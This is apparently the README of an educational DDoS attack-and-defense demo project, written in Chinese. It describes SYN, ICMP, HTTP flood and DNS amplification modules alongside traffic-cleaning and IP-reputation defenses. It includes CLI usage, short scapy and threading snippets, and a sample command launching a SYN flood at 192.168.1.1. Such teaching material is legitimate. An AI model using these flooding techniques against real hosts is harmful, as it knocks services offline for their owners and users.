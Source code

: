 # DDoS 攻防演示系统

## 系统功能介绍

### 1. 攻击模块
- **网络层攻击**
  - SYN Flood：通过发送大量SYN请求耗尽目标服务器的半连接队列
  - ICMP Flood：发送大量ICMP Echo请求消耗网络带宽
- **应用层攻击**
  - HTTP Flood：发送大量HTTP GET/POST请求耗尽Web服务器资源
  - DNS Amplification：利用DNS服务器放大攻击流量

### 2. 防御模块
- **流量清洗**
  - 流量特征分析：识别异常流量模式
  - IP行为分析：监控源IP的请求行为
  - 动态阈值控制：自适应调整清洗策略
- **访问控制**
  - IP信誉度机制：记录和评估IP行为
  - 请求频率限制：控制单IP访问速率
  - 动态黑白名单：自动更新IP过滤规则

## 使用参数说明

### 攻击命令 (attack_cli.py)
bash
usage: attack_cli.py [-h] -t TARGET [-p PORT] -m {syn,icmp,http,dns}
[--threads THREADS] [--duration DURATION]
[--http-method {GET,POST}]
参数说明：
-t, --target 目标IP或域名
-p, --port 目标端口号 (默认: 80)
-m, --mode 攻击模式: syn/icmp/http/dns
--threads 攻击线程数 (默认: 4)
--duration 持续时间(秒) (默认: 10)
--http-method HTTP方法 (默认: GET)

### 防御命令 (defense_cli.py)

bash
usage: defense_cli.py [-h] [-i INTERFACE] -m {traffic,access,all}
[--threshold THRESHOLD] [--window WINDOW] [--report]
参数说明：
-i, --interface 监听网络接口 (默认: eth0)
-m, --mode 防御模式: traffic/access/all
--threshold 流量阈值(包/秒) (默认: 1000)
--window 统计窗口(秒) (默认: 60)
--report 生成防御报告

## 目录结构及核心实现
ddos_demo/
├── attack/ # 攻击模块
│ ├── network/ # 网络层攻击
│ │ ├── syn_flood.py # SYN洪水攻击实现
│ │ └── icmp_flood.py # ICMP洪水攻击实现
│ └── application/ # 应用层攻击
│ ├── http_flood.py # HTTP洪水攻击实现
│ └── dns_amp.py # DNS放大攻击实现
├── defense/ # 防御模块
│ ├── traffic_clean.py # 流量清洗实现
│ └── access_control.py # 访问控制实现
├── utils/ # 工具模块
│ ├── monitor.py # 攻击效果监控
│ ├── logger.py # 日志记录
│ ├── config.py # 配置管理
│ └── report.py # 报告生成
├── attack_cli.py # 攻击命令行入口
└── defense_cli.py # 防御命令行入口

## 核心实现逻辑

### 1. 攻击模块核心实现
- **SYN Flood**
  ```python
  # 核心逻辑：构造TCP SYN包并发送
  ip_packet = IP(src=source_ip, dst=target_ip)
  tcp_packet = TCP(sport=source_port, dport=target_port, flags="S")
  send(ip_packet/tcp_packet)
  ```

- **HTTP Flood**
  ```python
  # 核心逻辑：发送HTTP请求
  session.get/post(target_url, 
                  headers=random_headers,
                  data=random_data)
  ```

### 2. 防御模块核心实现
- **流量清洗**
  ```python
  # 核心逻辑：分析和过滤数据包
  def clean_traffic(self, packet):
      if packet.src in self.blacklist:
          return False
      if self.analyze_packet(packet):
          return True
      return False
  ```

- **访问控制**
  ```python
  # 核心逻辑：IP信誉度检查
  def check_ip_reputation(self, ip):
      if ip in self.blacklist:
          return False
      return self.ip_reputation.get(ip, 0) > self.threshold
  ```

### 3. 监控系统实现
```python
# 核心逻辑：统计和监控
def update_stats(self, attack_type, count):
    with self.lock:
        self.stats[attack_type] += count
```

### 4. 多线程实现
```python
# 核心逻辑：并发攻击
def start_attack(self):
    threads = []
    for _ in range(self.num_threads):
        thread = threading.Thread(target=self.attack_method)
        thread.start()
        threads.append(thread)
    return threads
```

## 使用示例

1. 启动SYN Flood攻击：
```bash
sudo python3 attack_cli.py -t 192.168.1.1 -m syn --threads 8
```

2. 启动防御系统：
```bash
sudo python3 defense_cli.py -m all --threshold 500 --report
```

## 依赖安装
```bash
sudo pip3 install -i https://pypi.tuna.tsinghua.edu.cn/simple matplotlib pandas scapy requests fake-useragent pyyaml
```